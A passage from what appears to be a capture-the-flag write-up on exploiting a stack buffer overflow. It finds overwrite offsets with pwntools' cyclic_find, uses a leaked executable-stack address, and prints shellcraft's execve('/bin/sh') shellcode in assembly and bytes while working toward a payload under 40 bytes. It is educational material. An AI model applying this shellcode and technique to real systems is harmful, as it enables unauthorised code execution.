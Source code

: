 And we can see that `rbp` is overwritten (just like in Backdoor) at 32 characters and the top of the stack is overwritten at 40. That leaked address seems to point to the beginning of where the data is stored
###### Offsets
```python
>>> cyclic_find('iaaa') # Value stored in RBP
32
>>> cyclic_find('kaaa') # Value stored at top of stack
40
>>> cyclic_find(b'\x61\x61\x61\x61') # Value stored in leaked address
0
```

The leaked address is a part of the executable stack memory, so if we jump there, the program will execute whatever is there. We control that data, meaning we can give it code to execute.
### Payload Building
To exploit, we'll need a payload made up of 40 characters or less of shellcode, padding, and that leaked address

### Shellcode
Shellcode has to fit in 40 bytes of space.
##### Shellcraft Payload Too Long, but can give us a start
###### Python to put in appendix with other example shellcode:
```python
>>> print(shellcraft.amd64.linux.sh())
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```
###### Shellcraft info
```python
>>> print(asm(shellcraft.sh()))
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
>>> print(len(asm(shellcraft.sh())))
44
```
